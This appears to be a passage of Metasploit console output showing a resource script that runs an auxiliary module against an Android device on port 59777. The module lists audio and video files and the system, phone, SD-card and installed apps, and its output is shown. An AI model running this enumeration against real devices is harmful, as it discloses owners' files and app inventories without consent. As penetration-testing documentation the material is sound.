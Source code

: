 ```
  DragonTouch-text.mp4 (55.30 MB) - 1/20/1970 10:18:53 PM: /storage/emulated/0/Movies/DragonTouch-text.mp4

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAUDIOS
action => LISTAUDIOS
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Calendar Notification.ogg (52.89 KB) - 8/6/2015 08:15:30 PM: /storage/emulated/0/Notifications/Calendar Notification.ogg

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSSYSTEM
action => LISTAPPSSYSTEM
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.andriod.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
  com.android.providers.partnerbookmarks (com.android.providers.partnerbookmarks) Version: 4.4.2-20150203
```
...snip...

```
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSPHONE
action => LISTAPPSPHONE
resource (es.rb)> run
[+] 1.1.1.1:59777  
  Package Access Helper (com.android.defcontainer) Version: 4.4.2-20150203
  Launcher (com.android.launcher) Version: 4.4.2-20150203
  Contacts (com.android.contacts) Version: 4.4.2-20150203
  com.android.providers.partnerbookmarks (com.android.providers.partnerbookmarks) Version: 4.4.2-20150203
  Mobile Data (com.android.phone) Version: 4.4.2-20150203
  Calculator (com.android.calculator2) Version: 4.4.2-20150203
```
...snip...

```
  Calendar (com.google.android.calendar) Version: 5.8.28-195646716-release
  Face Unlock (com.android.facelock) Version: 4.4.2-940549
  Chrome (com.android.chrome) Version: 67.0.3396.87
  Shell (com.android.shell) Version: 4.4.2-20150203
  Google Contacts Sync (com.google.android.syncadapters.contacts) Version: 4.4.2-940549

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSSDCARD
action => LISTAPPSSDCARD
resource (es.rb)> run
[+] 1.1.1.1:59777  

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (es.rb)> set action LISTAPPSALL
```